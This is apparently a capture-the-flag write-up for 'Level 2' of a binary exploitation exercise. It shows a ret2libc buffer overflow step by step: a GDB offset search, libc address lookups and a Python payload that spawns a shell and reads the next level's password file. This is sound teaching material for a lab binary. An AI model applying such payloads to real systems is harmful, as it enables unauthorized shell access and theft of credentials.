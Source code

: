 # Level 2

We found two methods here :

## Methode 1: ret2Libc

First, we have to check if there is an overflow and where.
```sh
$ python ../tools/pattern.py 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```

Let's start GDB and launch our program with this pattern
```sh
$ gdb -q ./level2 
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) r <<< Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Starting program: /home/user/level2/level2 <<< Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```

The program crash with 0x37634136 in final value, it's out point of entry. Now we can find the size of the buffer crashing the program.
```sh
$ python pattern.py --crash 37634136   
Buffer crashed at size: 80
```
We have our offset, let's try to do a ret2libc exploit. It concist in adding function call of libc at the end in the EIP register.
We are going to call the system function with /bin/sh as argument lets find thoses addresses with GDB.
We also need exit to leave properly and the return address of the main

```sh
$ gdb -q ./level2 
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x8048542
(gdb) r
Starting program: /home/user/level2/level2 

Breakpoint 1, 0x08048542 in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7e5ebe0 <exit>
(gdb) find system, +9999999, "/bin/sh"
0xb7f8cc58
(gdb) disass
Dump of assembler code for function main:
   0x0804853f <+0>:		push   %ebp
   0x08048540 <+1>:		mov    %esp,%ebp
=> 0x08048542 <+3>:		and    $0xfffffff0,%esp
   0x08048545 <+6>:		call   0x80484d4 <p>
   0x0804854a <+11>:	leave  
   0x0804854b <+12>:	ret  
End of assembler dump.
```

A little resume of the situation:
```
ret address: 0x0804854b
system address: 0xb7e6b060
exit address: 0xb7e5ebe0
/bin/sh address: 0xb7f8cc58
```

Now, it's time for the exploit :D


```sh
$ (python -c 'print("A" * 80 + "\x4b\x85\x04\x08" + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7")'; cat) | ./level2
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAKAAAAAAAAAAAAK`�����X���
whoami
level3
cat /home/user/level3/.pass
```

Sources:<br>
[0xRick's Blog](https://0xrick.github.io/binary-exploitation/bof6/)<br>
[hackndo](https://beta.hackndo.com/retour-a-la-libc/)<br>
[CTF101](https://ctf101.org/binary-exploitation/buffer-overflow/)<br>
[0x0ff.info](https://www.0x0ff.info/2015/buffer-overflow-gdb-part-2/)<br>